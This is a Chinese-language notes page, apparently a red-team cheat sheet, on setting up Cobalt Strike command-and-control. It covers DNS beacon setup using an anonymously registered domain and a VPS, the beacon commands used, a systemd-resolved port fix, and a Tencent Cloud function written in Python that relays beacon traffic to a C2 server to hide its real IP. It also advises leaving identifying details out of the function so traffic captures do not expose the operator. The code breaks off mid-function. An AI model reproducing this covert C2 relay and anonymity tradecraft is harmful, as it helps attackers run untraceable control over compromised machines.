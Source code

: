 <a name="Gf2yX"></a>
## DNSbeacon上线

首先买一个域名，我是去狗爹上买的，因为可以不用备案，匿名注册。<br />然后还需要一个vps服务器。<br />NS记录要指向域名，A记录要指向vps服务器ip<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1614947990878-a2e55583-251a-44a4-8711-e4cef3ea0236.png#align=left&display=inline&height=267&originHeight=534&originWidth=1322&size=29679&status=done&style=none&width=661)<br />cobalt strike启动，记录如下，填写NS记录指向的 vpn.域名，不用ns1。<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1614947895954-618d1fcc-52b4-44f7-ae5f-17e029d914e0.png#align=left&display=inline&height=387&originHeight=515&originWidth=445&size=62098&status=done&style=none&width=334)<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1614948292369-e16294d9-219a-4ad8-a77b-97d7d95663de.png#align=left&display=inline&height=172&originHeight=229&originWidth=1001&size=15301&status=done&style=none&width=751)<br />上线后执行如下两条命令，但是dnsbeacon上线十分缓慢。<br />checkin<br />mode dns-txt

<a name="r9qCT"></a>
### Linux systemd-resolve占用53端口的解决方法，
![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1614946314084-5c79a69b-6e06-40a5-a29b-b0ab2270b377.png#align=left&display=inline&height=62&originHeight=124&originWidth=1003&size=10835&status=done&style=none&width=501.5)<br />1、先停用 systemd-resolved 服务<br />systemctl stop systemd-resolved

2、编辑 /etc/systemd/resolved.conf 文件<br />vi /etc/systemd/resolved.conf<br />换下面说明更改，然后按一下“esc”键，再输入“:wq”（不要输入引号），回车保存即可。<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1614947661113-18385bee-0b02-458e-964c-cbf0d6e370a2.png#align=left&display=inline&height=233&originHeight=310&originWidth=394&size=8019&status=done&style=none&width=296)<br />[Resolve]<br />DNS=8.8.8.8  #取消注释，增加dns<br />#FallbackDNS=<br />#Domains=<br />#LLMNR=no<br />#MulticastDNS=no<br />#DNSSEC=no<br />#Cache=yes<br />DNSStubListener=no  #取消注释，把yes改为no

3、最后运行下面命令即可。<br />ln -sf /run/systemd/resolve/resolv.conf /etc/resolv.conf

<a name="kEV59"></a>
## CS隐藏C2
利用腾讯云云函数，隐藏CS真实ip，但是这个有点限制，每个月虽然可以免费的一百万次的请求和40万GB·s的资源请求，但是外网出流量无免费额度。所以要注意点使用。<br />这里的函数名称千万不要填写任何关于自己的信息，包括id啥的，因为wireshark抓流量会捕抓到<br /> ![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1615017717254-5d8d2bb7-a631-4881-b421-c7ef85b7f631.png#align=left&display=inline&height=626&originHeight=834&originWidth=1422&size=49942&status=done&style=none&width=1067)<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1615037758919-238c13a6-e25a-4c85-bc28-d05e328b19ca.png#align=left&display=inline&height=543&originHeight=723&originWidth=890&size=92534&status=done&style=none&width=668)<br />使用自定义创建，函数名称改其他随机数<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1615038001361-e5ed12fd-9b26-4c48-9cf6-bd8c1e0c2312.png#align=left&display=inline&height=408&originHeight=815&originWidth=1622&size=52177&status=done&style=none&width=811)<br />图标中的第二步需要贴如下代码，如果CS的listen是http上线的话，下的C2位置要http，如果是https的beacon就填https的<br />
```python
# coding: utf8
import json,requests,base64
def main_handler(event, context):
    response = {}
    path = None
    headers = None
    try:
        C2='http://服务器ip:80'
        if 'path' in event.keys():
            path=event['path']
        if 'headers' in event.keys():    
            headers=event['headers']
        if 'httpMethod' in event.keys() and event['httpMethod'] == 'GET' :
            resp=requests.get(C2+path,headers=headers,verify=False) 
        else:
            resp=requests.post(C2+path,data=event['body'],headers=headers,verify=False)
            print(resp.headers)
            print(resp.content)
        response={
            "isBase64Encoded": True,
            "statusCode": resp.status_code,
            "headers": dict(resp.headers),
            "body": str(base64.b64encode(resp.content))[2:-1]
```